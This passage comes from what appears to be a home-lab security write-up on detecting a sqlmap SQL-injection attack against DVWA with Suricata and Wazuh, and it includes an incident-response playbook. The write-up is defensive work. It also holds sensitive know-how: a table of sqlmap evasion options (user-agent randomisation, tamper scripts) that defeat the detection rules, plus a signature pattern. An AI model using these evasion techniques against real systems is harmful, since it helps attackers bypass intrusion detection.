- **The content signatures are the safety net** — they catch the more sophisticated attackers who would defeat the UA fingerprint.

Defence-in-depth in detection rules works exactly like defence-in-depth in architecture: layered, redundant, with the cheap layer catching the obvious and the expensive layer catching the residual.

### 5.3 Asymmetric defense in depth — and why it's still proof

The 246/127 split is not the 4/4 perfection of scenario 01. Three honest reasons:

1. **TCP retransmissions** — over a ~80-second burst of 48 req/s, some packets need to be retransmitted. LAN_Suricata sees both the original and the retransmission as separate flow events; DMZ_Suricata sees only the final, ACK'd version.
2. **sqlmap parallel sockets** — sqlmap opens up to 4 concurrent TCP sessions. LAN sees all four leaving Kali; DMZ sees them serialised by Apache's connection handling.
3. **`tx_guessed: true`** on LAN (visible in screenshot 5 raw log) — Suricata could not always reconstruct the HTTP transaction cleanly on LAN, generating partial-state alerts that don't reach DMZ.

But the critical point holds: **both instances detected the attack**, and either alone would have alerted the SOC. The defense-in-depth property — "no single sensor failure causes a detection failure" — is intact. Symmetry is aesthetic; redundancy is functional.

### 5.4 Detection latency

| Step | Time |
|---|---|
| sqlmap escalade 1 starts | `T₀ = 02:18:45` CEST |
| First `100202` alert in `alerts.log` (LAN) | `T₀ + ~10 s` |
| Peak burst (302 alerts in 30 s window) | `T₀ + ~95 s` (02:20:15) |
| sqlmap finishes | `T₀ + 110 s` |

Alerts arrive in the SIEM **continuously throughout** the attack — not as a batch after completion. An analyst with the dashboard open sees the histogram rise within seconds, well before sqlmap has exfiltrated anything sensitive.

### 5.5 Pipeline incident (honest documentation)

During development of this scenario, the Suricata → Wazuh pipeline broke **temporarily** because of a Wazuh log rotation that occurred at midnight UTC. The `<remote>` syslog listener entered a stale state and stopped accepting packets, silently dropping ~3 900 events from the first sqlmap run. We diagnosed and fixed it with a `systemctl restart wazuh-manager`, then re-ran sqlmap and produced the data documented here.

This is documented honestly for two reasons:

- **Reproducibility**: anyone re-running this lab should be aware that `wazuh-manager` may need a restart after the daily log rotation, especially if the manager has uptime > 24 hours.
- **SOC maturity**: production pipelines have invisible-failure modes. The discipline of *re-running the attack and verifying detection from end to end* — rather than trusting that "we set this up two days ago, it must still work" — is the difference between a working SOC and a SOC theatre.

The custom rules and decoders themselves were not affected; only the syslog listener needed a refresh.

### 5.6 Limitations

| Limitation | Impact | Mitigation (future) |
|---|---|---|
| GET-parameter rules only | The custom rules trigger on Suricata's `flow:to_server` for HTTP. POST-body SQLi (`<form method="POST">`) would still match because Suricata inspects `http.request_body` by default, but parametrisation differs | Test against DVWA POST-mode SQLi to validate POST coverage |
| Sqlmap-aware payload obfuscation | More aggressive obfuscation (e.g., `--tamper=space2comment` chained) would break literal-content matches | Add `pcre` patterns for canonicalised SQL keywords |
| No HTTPS inspection | If DVWA were behind TLS, Suricata sees only encrypted bytes — content rules fire on nothing | Place an SSL inspector / WAF in front (Snort with mod_ssl, Suricata in TLS-MITM mode, or a reverse proxy with TLS termination) |
| No active response | We detect but do not block | Add Wazuh `<active-response>` to block `data.src_ip` at pfSense via SSH-out — listed in [`README.md`](../../README.md) future work |

### 5.7 What would defeat this detection

| Evasion | Why it works | Counter |
|---|---|---|
| `sqlmap --random-agent` | Defeats SID 9000010 (80 % of hits) | Content rules (9000001/5/6/8) still fire, drops detection to ~20 % |
| `sqlmap --tamper=charunicodeencode` | Encodes payloads in Unicode, breaks literal `content:"UNION"` match | Add `pcre:"/U[\x00-\xFF]N[\x00-\xFF]I[\x00-\xFF]ON/i"` or use Suricata's HTTP normaliser |
| Blind SQLi by hand, no `UNION`/`information_schema` keywords | Defeats all content rules except 9000007 (SLEEP) | Add behavioural rule "many slow HTTP responses from same client" |
| SQLi via a HTTPS endpoint without inspection | Suricata sees only TLS records | TLS termination + inspection (see § 5.6) |
| SQLi from inside the DMZ network | No NIDS east-west | Add HIDS file integrity monitoring on DVWA's MySQL container |

## 6. Incident response playbook (NIST SP 800-61)

This playbook applies the four-phase incident response lifecycle of **NIST SP 800-61 Rev. 2** to a SQL-injection incident that resulted in **confirmed data exfiltration** (five user credentials dumped and cracked). It is written as a production runbook. Unlike scenarios 01–02, this incident crosses the line from *attempt* to *breach*, which changes the response posture significantly.

**Incident classification.** Category: *Web application attack → data breach*. Severity: **High** — exfiltration of credentials completed. NIST functional impact: *Low* (DVWA itself is non-critical) but **information impact: Privacy Breach** (credentials extracted); recoverability: *Supplemented* (cracked credentials are now permanently burned and must be rotated). MITRE: T1190.

### 6.1 Preparation

- **Detection engineering.** Two Suricata sensors on pfSense with **10 custom SQLi rules** (`9000001`–`9000010`) authored specifically to close the gap left by ETOpen's free ruleset (which has **no generic SQLi signatures** — a finding documented in §3.1). Custom Wazuh decoder + escalation rule `100202` (level 10, T1190), version-controlled.
- **Asset & data inventory.** DVWA is mapped as an internet-facing app on `10.10.30.50:80`; the `dvwa.users` table is known to hold credential hashes — i.e. the data at risk is identified *before* an incident, so impact can be assessed instantly.
- **Baseline.** Normal request rate to the DVWA endpoint is characterised, so a burst of **~3 900 requests in 80 s (~48 req/s)** is unmistakably anomalous.
- **Runbook & access.** WAF/firewall block templates, DVWA/Docker host admin access, database credential-rotation procedure, and the data-breach notification contact (DPO / privacy owner) are pre-staged — because a privacy breach has reporting obligations.

### 6.2 Detection and analysis

- **Trigger.** Wazuh rule `100202` (level 10, T1190) fires, fed by the custom Suricata SIDs; **331 alerts** captured (246 LAN + 127 DMZ). The single most prolific signature is the **sqlmap User-Agent fingerprint** (~80 % of hits) — tool identification, not payload analysis.
- **Triage questions:**
  1. *Attack volume and tool?* ~48 req/s + sqlmap UA = automated exploitation, not manual probing. This is an active campaign, treat as urgent.
  2. *Did it progress past detection to extraction?* This is the critical question. Review the request sequence for the three escalation stages — vulnerability detection → enumeration (`information_schema`) → **dump of `dvwa.users`**. Presence of UNION/dump patterns and large response payloads indicates exfiltration **occurred**, not just attempted.
  3. *What was taken?* If the `users` table was dumped, assume **all five credential hashes are compromised** and must be treated as cracked (they were).
  4. *Same actor?* Source `10.10.10.51` ties this to the recon (01) and brute force (02) — one intrusion, escalating through the kill chain.
- **Scoping.** Determine exactly which rows/tables were returned (correlate Suricata payload alerts with Apache/DVWA access logs and response sizes). Identify whether any dumped credential is **reused** on a real system — that is how a DVWA dump becomes a real-network foothold.
- **Declaration.** Confirmed **data breach incident** with privacy impact. Engage the data-owner/DPO track in parallel with technical response.

### 6.3 Containment, eradication and recovery

- **Short-term containment (minutes matter — exfiltration completes in < 60 s):**
  - Block the source at pfSense: `pfctl -t blocklist -T add 10.10.10.51`.
  - Take the vulnerable endpoint offline or behind a deny rule (`http://10.10.30.50`) to stop further extraction.
  - If a WAF is present, deploy a virtual-patch rule for the `id` parameter immediately.
- **Eradication:**
  - **Fix the root cause** — the SQL injection vulnerability itself. In DVWA this means raising the security level / using parameterised queries; in a real app, deploy the code fix (prepared statements, input validation) and confirm via re-test.
  - Remove any attacker artefacts: SQLi rarely drops files, but verify no stacked-query writes, no new DB users, no `INTO OUTFILE` web-shell drop on the server.
- **Recovery — the credential problem dominates:**
  - **Rotate every credential in the dumped table** and anywhere those credentials may be reused. Cracked hashes are permanently burned; rotation is the only remedy.
  - Force password reset for affected accounts; invalidate active sessions.
  - Restore the database from a clean backup only if integrity was affected (a dump is read-only, so usually data is intact — the loss is confidentiality, not integrity).
  - Bring the endpoint back online only after the vulnerability is patched and re-tested.
- **Validation.** Re-run a controlled sqlmap probe to confirm the injection no longer succeeds; confirm rotated credentials; confirm both Suricata sensors + Wazuh pipeline healthy.

### 6.4 Post-incident activity

- **Lessons learned.** Two headline findings drive the review: (1) the **ETOpen coverage gap** for SQLi — without the 10 custom rules this attack would have been invisible at the network layer; (2) **80 % of detection came from tool fingerprinting (sqlmap UA)**, which is brittle — an attacker changing the UA would evade most hits, so payload-based rules must be strengthened.
- **Detection improvements.** Reduce reliance on UA signatures; add **rate-based** alerting (N web-attack alerts from one source in M seconds → auto-escalate) so detection survives UA spoofing; tune the payload rules against false positives.
- **Breach handling.** Complete the privacy-impact assessment; document what data left the environment; fulfil any notification obligations (in production this is a regulatory step, not optional).
- **Hardening.** Code-level remediation (parameterised queries) as the durable fix; least-privilege DB account for the web app (so a future SQLi can't read the whole schema); consider a WAF in front of web tier as defence-in-depth.
- **Kill-chain correlation.** This incident is the third stage from the same source (01 recon → 02 brute force → 03 SQLi). Record it as a single intrusion in the case management system and build the correlation rule that would have surfaced it as **one** escalating incident rather than three separate alerts.
- **Metrics.** Alerts (331), exfiltration window, MTTD vs. the < 60 s exfiltration budget, credentials rotated, time-to-patch.
- 
---

← [`02-ssh-bruteforce-deception.md`](./02-ssh-bruteforce-deception.md) | **Next:** [`04-web-shell.md →`](./04-web-shell.md)
